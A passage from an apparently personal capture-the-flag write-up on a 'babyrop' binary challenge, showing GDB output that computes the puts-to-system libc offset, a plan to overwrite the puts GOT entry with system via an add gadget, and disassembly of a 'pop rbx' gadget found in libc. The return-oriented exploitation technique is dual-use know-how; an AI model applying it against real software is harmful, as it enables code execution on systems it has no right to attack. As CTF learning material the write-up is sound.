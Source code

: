 
Another probably the most important one is the `0x40115c`  If we control `ebx` register value we control any value inside of `$rbp-0x3d` 

![d59cc8f546e7467c0dec46bdfd5e247d.png](/assets/images/SmileyCTF-babyrop/d59cc8f546e7467c0dec46bdfd5e247d.png)

Now imagine^imagination

```python
(remote) gef➤  p puts
$3 = {int (const char *)} 0x7ffff7e32be0 <__GI__IO_puts>
(remote) gef➤  p system
$4 = {int (const char *)} 0x7ffff7e03750 <__libc_system>
(remote) gef➤  p puts-system
$5 = 0x2f490
(remote) gef➤  p system-puts
$6 = 0xfffffffffffd0b70
```

>rbp : 0x40404d-> the print GOT address at 0x404010 (0x7ffff7e32be0 in my environment)
>ebx : 0xfffffffffffd0b70
> The result inside of 0x404010 -> 0x7ffff7e03750

The end of calculations successfully overwrite the 0x404010 with `__libc_system` address.
Nothing easy in life, this gonna be not so easy as well.

As you realize didn't shared any gadget we can control rbx value. Thats because couldn't find any proper gadget with least cost. I'm saying i couldn't because i am not sure if there is, i didn't recognize.

Anyway, there is no simple explanation for this, we need to find and calculate `pop rbx` gadget. The harvesting LIBC was not easy to me, you will see the reason at next steps. So this is our target address. ^e2ee21-addr

```python
(remote) gef➤  x/12i 0x00007ffff7e2ee21
   0x7ffff7e2ee21 <__parse_one_specmb+1057>:    add    rsp,0x18
   0x7ffff7e2ee25 <__parse_one_specmb+1061>:    mov    rax,r14
   0x7ffff7e2ee28 <__parse_one_specmb+1064>:    pop    rbx
   0x7ffff7e2ee29 <__parse_one_specmb+1065>:    pop    r12
   0x7ffff7e2ee2b <__parse_one_specmb+1067>:    pop    r13
   0x7ffff7e2ee2d <__parse_one_specmb+1069>:    pop    r14
   0x7ffff7e2ee2f <__parse_one_specmb+1071>:    pop    r15
   0x7ffff7e2ee31 <__parse_one_specmb+1073>:    pop    rbp
   0x7ffff7e2ee32 <__parse_one_specmb+1074>:    ret
```

